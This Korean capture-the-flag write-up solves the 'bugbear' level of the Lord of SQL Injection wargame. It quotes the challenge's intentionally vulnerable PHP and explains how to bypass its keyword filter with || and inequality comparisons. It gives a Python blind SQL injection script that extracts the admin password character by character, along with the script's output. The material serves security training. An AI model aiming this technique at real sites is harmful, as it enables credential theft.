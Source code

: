```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - bugbear 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `생각 전환`의 필요성에서 살짝 느꼈던 문제였다.  

뭔가 허점을 찌르는 느낌이었다.  

`bugbear`라는 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='' and no=
------------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

필터링을 보면 뭔가 굉장히 빡세게 걸려있다.  

이 전 문제들에서 사용했던 것들이 대부분 막혀있다.  

하지만 다행인건, `&&`와 `||`은 사용할 수 있다는 것이다.  

그래도 아직 `like`과 `=`를 사용할 수 없기 때문에 비교를 할 수 없다.  

아니 정정하자면, `같은지` 비교를 할 수 없다.  

그럼 반면, 내가 입력한 값보다 `큰지 혹은 작은지`는 비교할 수 있다.  

이 때문에 나는 `부등호`를 사용해서 문제를 풀었다.  

내가 많이 고민했던 부분은 `id='admin'`을 사용할 수 없다는 점이었다.  

`admin`의 `pw`를 출력하긴 해야 하는데, `id='admin'`을 그 어떤 방법으로도 비교할 수 없어 보였다.  

그래서 `부등호를 사용해 비교할 수 있는 값`에 초점을 맞추어 다시 문제를 보았다.  

그러다 눈에 띈 것이 `no`였다.  

아마도 다른 문제들처럼, 각각의 계정에 `no` 값이 부여되어 있을 것이다.  

때문에 부등호를 이용 해 `no`를 비교한다면, `id`가 `admin`인 행을 구할 수 있지 않을까 생각했다.  

이를 확인하기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1&no=1||no<2
```

그랬더니 `Hello guest`가 출력되었다.  

이것저것 시도 해 보니, `?pw=1&no=1||no>1`을 입력하니 `Hello admin`을 얻을 수 있었다.  

일단 `id`가 `admin`인 행을 구할 수 있으니, `pw`의 길이와 값은 이 전 문제와 동일하게 `length()`와 `min()`를 사용하고, 부등호를 통해 비교하게 하면 될 것이다.  

또한 만약 `Hello admin`이 출력 된다면 그 값이 아니라 `해당 값 - 1`을 길이 혹은 pw의 일부라고 생각하면 된다.  

이를 토대로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=1&no=0||no"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + ">1%26%26length(pw)<" + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i - 1
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + ">1%26%26mid(pw," + str(j) + ",1)<char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i - 1)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

너무 한번에 결과가 나와서 당황했는데, 다행히 제대로 된 `pw`를 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 52
[+] Found 3 : 52D
[+] Found 4 : 52DC
[+] Found 5 : 52DC3
[+] Found 6 : 52DC39
[+] Found 7 : 52DC399
[+] Found 8 : 52DC3991
[+] Found password :  52DC3991
[+] End
```

이전 문제들처럼 알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=52dc3991
```

```php
------------------------------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='52dc3991' and no=
------------------------------------------------------------------------------------------------------------

BUGBEAR Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

`BUGBEAR Clear!!`

